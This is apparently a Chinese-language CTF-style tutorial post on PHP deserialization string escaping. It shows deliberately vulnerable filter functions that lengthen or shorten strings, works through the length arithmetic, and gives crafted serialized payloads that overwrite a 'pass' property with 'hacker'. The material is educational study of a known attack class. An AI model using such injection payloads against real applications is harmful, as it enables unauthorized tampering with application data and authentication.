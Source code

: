 ```yaml
---
title: Unserialization Escaping
date: 2022-07-09 17:58:30
tags:
top: 50
categories:
- code-audit
---
```


- [反序列化字符串逃逸](#反序列化字符串逃逸)
  - [少变多](#少变多)
        - [实验](#实验)
    - [做法](#做法)
        - [1 生成一个看起来正常的序列化字符串](#1-生成一个看起来正常的序列化字符串)
        - [2 构造最终的pass值](#2-构造最终的pass值)
        - [3 计算溢出位移，构造payload](#3-计算溢出位移构造payload)
  - [多变少](#多变少)
        - [实验代码](#实验代码)
    - [做法](#做法-1)
        - [1 生成一个看起来正常的序列化字符串](#1-生成一个看起来正常的序列化字符串-1)
        - [2 计算被吃掉部分字符串](#2-计算被吃掉部分字符串)
        - [3 构造payload拼接尾部](#3-构造payload拼接尾部)


# 反序列化字符串逃逸

## 少变多

##### 实验

    <?php
    // 少变多题目
    function filter($str){
        return str_replace('bb', 'ccc', $str);
    }

    class A{
        public $name='aaaa';
        public $pass='123456';
    }



构造顺序，从

    ";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}";s:4:"pass";s:6:"123456";}

开始计算

    // 得知 少变多 bb->ccc ，被篡改的s长度要大，s内容要小，才能顶出
    // 数出`";s:4:"pass";s:6:"hacker";}`部分是27长度字符，则需要顶出27
    // 顶出长度/变长位数 就是 被替换字符 的个数
    // 故输出27对"bb"


// ";s:4:"pass";s:6:"hacker";}     len:27

// 2->3 差值1   27对

    $payload = 'O:1:"A":2:{s:4:"name";s:81:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:2:"21";}';
    echo $payload;
    echo "\n";
    $payload=filter($payload);
    echo $payload;
    echo "\n";

    $o=unserialize($payload);
    // echo $o->pass;
    echo serialize($o);

    ?>

### 做法

##### 1 生成一个看起来正常的序列化字符串

    <?php
    // exp

    class A{
        public $name='12';
        public $pass='21';
    }

    $o = new A();
    echo serialize($o);
    ?>

得到

    O:1:"A":2:{s:4:"name";s:2:"12";s:4:"pass";s:2:"21";}

##### 2 构造最终的pass值

因为我们构造的这部分代码会被“少变多”顶出去，因此我们从被构造变量的上一个变量的变量值的右引号起开始构造，构造如下这部分

    O:1:"A":2:{s:4:"name";s:2:"12";s:4:"pass";s:2:"21";}

构造为

    ";s:4:"pass";s:6:"hacker";}


##### 3 计算溢出位移，构造payload

从上一步已构造得到

    ";s:4:"pass";s:6:"hacker";}

使用python计算长度 len('";s:4:"pass";s:6:"hacker";}')，得其长度为27

已知题目是'bb' 变为 'ccc'，即 2->3，一对的长度差值多1个字节。为了顶出 27长度 的payload，我们则 27/1 == 27 ，即构造27对 'bb' 变 'ccc'

从第一步得到的字符串，直接删除name的变量值中原有字符串（即原有的“12”这种占位字符），填写27对'bb'（即54个b）和我们构造后的payload

    O:1:"A":2:{s:4:"name";s:2:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:2:"21";}

如上payload，黄底红字是我们拼上去的，灰底紫字在未来将会被顶出去，实际作废。

最后不要忘了修改name变量值的长度，题目会将这27对bb替换为27对ccc，即变为81个长度的字符值。

因此，我们需要修改字符串长度为 81

    O:1:"A":2:{s:4:"name";s:81:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:2:"21";}

传输此字符串，则成功结束。
发送payload，反序列化后的pass将会是 

    s:6:"hacker"

比对如下：

![2024-04-14-11-57-35](2024-04-14-11-57-35.png)

## 多变少


##### 实验代码

    <?php
    // 多变少题目
    function str_rep($string){
        return preg_replace( '/php|test/','', $string);
    }

    class A{
        public $name='aaaa';
        public $pass='123456';
    }

---

    // 先构造尾部字符串
    // ";s:4:"pass";s:6:"hacker";}";}  payload部分：这是最终要反序列化识别出来的
    // ";s:4:"pass";s:2:"222    作废部分：这部分是需要被吃的，不过这部分可以计算，比如长度是21，或者不是整倍数也可以直接改字符串使其长度是变化长度的整倍数
    // 变化：3->0或4->0，即找3或者4的倍数，然后构造 21 / 3 = 7,则写7个php

---

    $payload = 'O:1:"A":2:{s:4:"name";s:21:"phpphpphpphpphpphpphp";s:4:"pass";s:3:"221";s:4:"pass";s:6:"hacker";}"';
    echo "\n";
    $payload=str_rep($payload);
    echo $payload;
    echo "\n";

    $o=unserialize($payload);
    echo $o->pass;
    ?>

### 做法

##### 1 生成一个看起来正常的序列化字符串

    O:1:"A":2:{s:4:"name";s:2:"12";s:4:"pass";s:2:"21";}

##### 2 计算被吃掉部分字符串

如这部分

    O:1:"A":2:{s:4:"name";s:2:"12";s:4:"pass";s:3:"212";}

`";s:4:"pass";s:3:"212`
是将被吃掉的部分，计算长度是21

变化：3->0或4->0，即找3或者4的倍数。此处假设我们选择构造3的倍数，则构造 21 / 3 = 7,则写7个php。

注意，此处如果长度是22，但是遇到的题目是3->0位移为3，22不是3的整倍数，也不用太担心。“多变少”题型我们可以随意控制被吃的字符串长度（反正会被吃掉，甚至不用计算这个s的长度对不对），比如是";s:4:"pass";s:4:"2221被吃的22长度，那可以改字符串长度和字符串是21长度的";s:4:"pass";s:2:"222

那么payload现在就是";s:4:"pass";s:3:"212将会被phpphpphpphpphpphpphp吃掉。

payload如下

    O:1:"A":2:{s:4:"name";s:21:"phpphpphpphpphpphpphp";s:4:"pass";s:3:"221


##### 3 构造payload拼接尾部
根据上面提到的残缺，直接构造payload，拼接尾部构成完整的payload即可。

    ";s:4:"pass";s:6:"hacker";}"

变为

    O:1:"A":2:{s:4:"name";s:21:"phpphpphpphpphpphpphp";s:4:"pass";s:3:"221";s:4:"pass";s:6:"hacker";}"













